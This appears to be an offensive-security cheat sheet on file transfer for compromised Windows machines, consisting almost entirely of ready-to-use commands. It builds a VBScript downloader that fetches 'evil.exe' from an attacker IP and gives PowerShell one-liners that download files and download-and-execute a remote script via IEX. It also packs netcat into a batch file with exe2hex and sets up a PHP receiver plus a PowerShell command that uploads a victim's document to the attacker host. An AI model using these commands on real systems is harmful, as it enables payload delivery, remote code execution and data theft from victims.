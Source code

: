 ### Windows Downloads Using Scripting Languages
#### Vbs
```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs

cscript wget.vbs http://10.11.0.4/evil.exe evil.exe
```

#### Powershell
```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'new-exploit.exe')
```

##### Download and execute file
```
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')
```

#### Exe2hex 
```
upx -9 nc.exe #for file compression
exe2hex -x nc.exe -p nc.cmd

```

### Windows Uploads Using Windows Scripting Languages
```
#In kali on apache2 directory, create upload.php file; the content is as followed
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>

#In windows, run the following 
powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')

```